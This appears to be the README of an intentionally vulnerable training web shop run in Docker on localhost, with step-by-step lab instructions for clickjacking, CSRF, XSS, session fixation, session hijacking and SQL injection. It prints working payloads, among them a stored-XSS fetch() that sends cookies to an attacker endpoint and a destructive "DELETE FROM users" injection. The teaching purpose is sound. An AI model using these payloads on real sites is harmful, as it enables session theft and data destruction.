



# Table of contents
1. [Description](#description) 
2. [Tech stack](#technical-stack)
3. [Setup](#setup)
4. [Attacks](#attacks)
    -  [Clickjacking](#clickjacking)
    -  [CSRF](#csrf)
    -  [Reflected XSS](#reflected-xss)
    -  [Session fixation](#session-fixation)
        - [Using stored XSS](#using-stored-xss)
        - [Using reflected XSS](#using-reflected-xss)
    -  [Session hijacking](#session-hijacking)
    -  [SQL injection](#sql-injection)
    -  [Stored XSS](#stored-xss)
5. [More information](#more-information)
6. [Demos](#demos)
7. [License](#license)
8. [Disclaimer](#disclaimer)

# Description

An insecure website created to test some of the most common web attacks used these days.

Instructions for how to perform the following attacks are provided:

- Clickjacking
- CSRF
- Reflected XSS
- Session fixation
- Session hijacking
- SQL injectioon
- Stored XSS


Please refer to the second branch for detailed information regarding the preventive methods employed to mitigate those attacks.

## Technical stack

|                     Microservice                     |                         Styling                          |                 Scripting language                 |                   Containerization                    |
| :--------------------------------------------------: | :------------------------------------------------------: | :------------------------------------------------: | :---------------------------------------------------: |
|  |  |  |  |

<br>

# Setup

#### Prerequisites

- Docker installed
- Docker deamon running
- No current processes listening at the following ports: 8001, 3306 & 5000

#### Clone using SSH

```bash
git clone git@github.com:davidlarsson33/Web-shop-under-attack.git
```

#### Change working directory

```bash
cd Web-shop-under-attack
```

#### Set up the project (this may take a while)

```bash
docker-compose up
```

#### The following URL:s are available to you now:

> &rarr; Victim website: http://localhost:80/
> <br>
> &rarr; phpmyadmin: http://localhost:8001/
> <br>
> &rarr; Attacker's webpage: http://localhost:5000/

# Attacks

## Clickjacking

1. Go to the attackers page: http://localhost:5000/clickjacker
2. Click on the "Get an free iphone!"-button
3. Open devloper tools and go to the network tab. It shows that a request has been made to another website due to the fact that the user has clicked a button on the website in the hidden iframe - which is an unknown act performed by the user. 

### Comments
Once the user clicks on the button on this website her clicks will get hijacked. The victim thinks that she is going to win an iphone but in reality she performs some actions on another website (http://localhost/) embedded in an hidden iframe. In this case the user just navigates on the hidden website - which is harmless but it demonstrates the potential of the attack.

<br>

## CSRF

### Pre-attack phase
1. Go to phpAdmin: http://localhost:8001/.
2. Log in to phpAdmin using the following credentials:
    - username: db-username
    - password: db-password
3. Click on the "dbname" database and head over to the users-table. Note that the user with an email address of "kenneth@gmail.com" exists.

### Attack phase
4. Go to the login page of the victim website in another tab: http://localhost/login
5. Use a regualar user's credentials to log in. Use the following credentials:
   - Email: kenneth@gmail.com
   - Password: 123AC!asdasdasd
6. Go the the attacker's URL in another tab: http://localhost:5000/CSRF

### Post-attack phase
7. Refresh the tab where the user is logged in. Note that the user is no longer authenticated beause her account has been deleted.
8. Go to phpAdmin & refresh the page. Check that the user with the email address of "kenneth@gmail.com" has been deleted.

### Comments
Once the logged in user visits the attacker's url her account will get deleted. The CSRF attack has been successful.

The attacker would know how to construct a malicious POST request to the delete-endpoint by observing and analyzing the traffic leaving the browser when making a regular delete request from the vicitm website.
<br>

## Reflected XSS

1. Go to the login page of the victim website: http://localhost/login
2. Copy & paste the following i the email-adress-section and press submit:

```html
<script>
  alert("Reflected XSS");
</script>
```
<br>

## Session fixation

### Using stored XSS:


#### Pre-attack phase
1. Go to http://localhost/ in a chrome tab in regular mode. Note that you are not logged in. Don't close this tab.
2. Navigate to the reviews page & refresh the page. Note that you are still not logged in.

3. Head over to the login-page in another icognito tab: http://localhost/login
4. Login as the attacker. You could use the following credentials:
   - Email: attacker@malicious.com
   - Password: XSS!1234!xss
5. Refresh the fist regular tab. Note that you are not logged in.

#### Attack phase
6. Perform a stored XSS attack by heading to the reviews page (as the attacker) and posting the following as a comment:

```html
<script>
  document.cookie = "THE_ATTACKER'S_SESSION_TOKEN";
</script>
```

Where "THE_ATTACKER'S_SESSION_TOKEN" is replaced with the attacker's session token.

Example:

```html
<script>
  document.cookie = "PHPSESSID=af45a8819791c49a4d0320";
</script>
```

7. Refresh the reviews page two times in the first regular tab (where nobody is logged in) 
8. Note that you get logged in as the attacker


### Using reflected XSS:

### Pre-attack phase
1. Head over to the login-page in a an incognito tab: http://localhost/login
2. Login as the attacker. Use the following credentials:
   - Email: attacker@malicious.com
   - Password: XSS!1234!xss

3. Get a hold of the attacker's session token. This can be done using developer tools. The tooken should look like this:

```
PHPSESSID=af45a8819791c49a4d0320
```

4. Open up another tab in chrome in regular mode
5. Notice that you are not loged in regular mode no matter what page you visit


### Attack phase
6. Trick the user to go to the login page (second tab) and paste in the following in the username-field:

```html
<script>
  document.cookie = "THE_ATTACKER'S_SESSION_TOKEN";
</script>
```

Example:

```html
<script>
  document.cookie = "PHPSESSID=af45a8819791c49a4d0320ca45105472";
</script>
```

7. Make the user press submit

### Post-attack phase

8. Note that the user (in the second tab) gets logged in as the attacker when she browses the webpage. 

### Comments
A user visitng the reviews-page will get logged in as the attacker when the user starts to navigates the website or refreshes the reviews page. This will work if the attacker has an ongoing session with the server and the client has javascript enabled in the browser.

<br>

## Session hijacking

In order for this to work a session token must be hijacked first. There is many ways this can be done. However, I have decided that it would be suitible to make use of the stored XSS attack to get a hold of a user's session token.

### Pre-attack stage:

1. Use chrome and seach for the "ModHeader" extention
2. Add the extention to chrome
3. Enable the extention to be used in icognito mode

### Attack stage:

4. Go to the login page of the victim website in icognito mode: http://localhost/login
5. Use the attacker's credentials to login:
   - Email: attacker@malicious.com
   - Password: XSS!1234!xss
6. Go to the reviews section as the attacker
7. Perform a stored XSS attack by inserting the following payload as a comment and press submit:

```html
<script>
  fetch("http://localhost:5000/attacker?cookie=" + document.cookie);
</script>
```

8. Log out the attacker

9. Head over to the login-page in a regular tab: http://localhost/login
10. Login as a user. You could use the following credentials:
   - email: david@gmail.com
   - password: 123AC!asdasdasd
11. Go to the reviews-section

12. Make sure that the logged in user's session token has been hijacked by looking att the attackers phished_data.txt file 

13. Copy the logged in user's session token from the phished_data.txt file

14. Use ModHeader to append a HTTP header cookie field in every subsequent request in the attacker's tab. Add this header to each and every HTTP request:
   <br>
   Cookie = THE_HIJACKED_COOKIE_VALUE
   <br>
   <br>
   EXAMPLE:
   <br>
   Cookie = PHPSESSID=97507860b55c55846bf41675b7971e94

```
NOTE: The attacker will send his own session token to himself as a part of the stored XSS attack phase. Make sure you use the victim's session token session during the session hijacking attack.
```

```
NOTE: Don't forget to remove the cookie from every http-request after this attack.
```
### Comments
The attacker has now successfully hijacked a user's session and can perform any action that the authenticated user can perform. The attacker can change the user's password, name or email adress. The attacker can even delete the user's account now.

<br>

## SQL Injection


### Pre-attack phase
1. Go to phpAdmin: http://localhost:8001/.
2. Log in to phpAdmin using the following credentials:
    - username: db-username
    - password: db-password
3. Click on the "dbname" database and head over to the users-table. Note that the table contains some users.

### Attack phase
4. Go to the log in page in another tab & paste the following SQL query into the email address field: 
``` 
'; DELETE FROM users; --
```

5. Click submit

### Post-attack phase
6. Go to phpAdmin again, refresh the page and check the users-table: http://localhost:8001/


### Comments
All the users have now been removed from the users table due to the fact that the SQL injection has been successful.

<br>

## Stored XSS

This attack opens up a major security threat for the website.

### Pre-attack phase

1. Head over to the reviews section in a regular tab: http://localhost/reviews
2. Open devloper tools & navigate to the console
3. Note that the console is empty

### Attack phase
4. Go to the login page of the victim website in a second icognito tab: http://localhost/login
5. Use the attacker's credentials to login:
   - Email: attacker@malicious.com
   - Password: XSS!1234!xss
6. Head over to the reviews-section
7. Add some malicious javascript as a comment and click submit:

```html
<script>
  console.log("Elon Musk was here");
  console.log("Stealing your cookies in the background...");
</script>
```

### Post-attack phase
8. Refresh the page in the first tab
9. Note the console log that was not there before. 

### Comments
The stored XSS attack has been successful. Now everytime a user visits the reviews-section the payload of the attacker will get executed (given that js is enabeled in the client's browser). In this case every user will get an console log of the above statements. The console.log could be replaced by something more malicious as beeing done in the session hijacking attack below.

<br>


## Demos

## Clickjacking
https://github.com/davidlarsson33/Web-shop-under-attack/assets/90555335/453924e8-caa6-433e-847f-58abfb0bcf65


## SQL injectioon
https://github.com/davidlarsson33/Web-shop-under-attack/assets/90555335/c5b4065d-26c7-4ffe-877e-c637884f5f4f

## Reflected XSS
https://github.com/davidlarsson33/Web-shop-under-attack/assets/90555335/ccd78395-0310-4bbf-ab63-561ad967422c

## CSRF
https://github.com/davidlarsson33/Web-shop-under-attack/assets/90555335/30c3e217-7272-48f4-93ac-cc05d571a969

## Session hijacking
https://github.com/davidlarsson33/Web-shop-under-attack/assets/90555335/ea9781f6-00de-435e-8832-4d9f2a1c3c75

## Session fixation

### Approach 1 using stored XSS
https://github.com/davidlarsson33/Web-shop-under-attack/assets/90555335/9fd4da29-8327-47dc-96b1-64cdf1329d34

###  Approach 2 using reflected XSS
https://github.com/davidlarsson33/Web-shop-under-attack/assets/90555335/0443ebe9-a329-4fa7-8835-9c40ed2a06ad

## Stored XSS
https://github.com/davidlarsson33/Web-shop-under-attack/assets/90555335/03909e87-dac2-4e49-8e7a-289d4ef7fe34


## More information


> &nbsp;&nbsp; &rarr; Reflected XSS: https://owasp.org/www-community/attacks/xss/
> <br>
> &nbsp;&nbsp; &rarr; CSRF: https://owasp.org/www-community/attacks/csrf
> <br>
> &nbsp;&nbsp; &rarr; Stored XSS: https://owasp.org/www-community/attacks/xss/
> <br>
> &nbsp;&nbsp; &rarr; SQL injection: https://owasp.org/www-community/attacks/SQL_Injection
> <br>
> &nbsp;&nbsp; &rarr; Session hijacking: https://owasp.org/www-community/attacks/Session_hijacking_attack
> <br>
> &nbsp;&nbsp; &rarr; Session fixation: https://owasp.org/www-community/attacks/Session_fixation
> <br>
> &nbsp;&nbsp; &rarr; Clickjacking: https://owasp.org/www-community/attacks/Clickjacking


## License

[MIT]('./LICENSE.md')

## Disclaimer

[DISCLAIMER]('./DISCLAIMER.md')
